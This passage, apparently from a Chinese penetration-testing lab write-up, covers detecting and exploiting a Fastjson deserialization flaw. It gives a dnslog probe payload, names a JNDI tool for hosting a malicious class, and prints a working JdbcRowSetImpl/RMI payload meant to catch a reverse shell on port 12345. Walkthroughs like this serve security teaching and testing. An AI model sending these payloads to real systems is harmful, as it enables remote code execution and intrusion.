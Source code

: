 出现了`Fastjson`，说明确实是`Fastjson`，接下来用 dnslog 探测一下是否存在漏洞

```plain
{"qwq":{"@type":"java.net.Inet4Address","val":"4mmi9n.dnslog.cn"}}
```

[![](assets/1706771111-120a2bf3539c63d388c76e01d626145e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173756-14e4d980-be8a-1.png)

成功收到回显，说明存在 Fastjson 漏洞。

### 漏洞利用

接下来使用工具`jndi_tool.jar`部署恶意类 (在靶机上部署，因为域成员可能不出网)，工具链接[https://github.com/wyzxxz/jndi\_tool](https://github.com/wyzxxz/jndi_tool)

[![](assets/1706771111-fbb151485c3a5a5af93d00461d89eb32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173810-1d8411fa-be8a-1.png)

同时在靶机上监听 12345 端口，待会用于接收 shell，然后按如下 Payload 发包

```plain
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://172.30.12.5:1099/Object",
        "autoCommit":true
    }
}
```

